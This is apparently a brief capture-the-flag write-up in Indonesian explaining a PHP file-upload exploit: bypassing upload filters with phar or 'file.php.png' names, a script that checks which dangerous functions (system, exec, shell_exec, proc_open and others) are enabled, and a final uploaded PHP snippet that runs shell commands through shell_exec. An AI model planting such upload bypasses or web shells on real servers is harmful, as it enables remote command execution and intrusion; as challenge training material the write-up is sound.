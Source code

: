 ### how to solve

upload file exploit, bisa pakai phar, bisa manipulasi dengan file.php.png dan lainnya
lalu terdapat disable function bisa check disable functions dengan info.php 

lalu bisa check enable functions dengan
```
<?php

$dangerous_functions = array('pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail');

foreach ($dangerous_functions as $f) {
  if (function_exists($f)) {
    echo $f . " is enabled<br/>\n";
  }
}

?>



lalu melakukan exploit akhir dengan 

<?php
// Executes, returns the entire output as a string
echo shell_exec("ls -la");
?>
```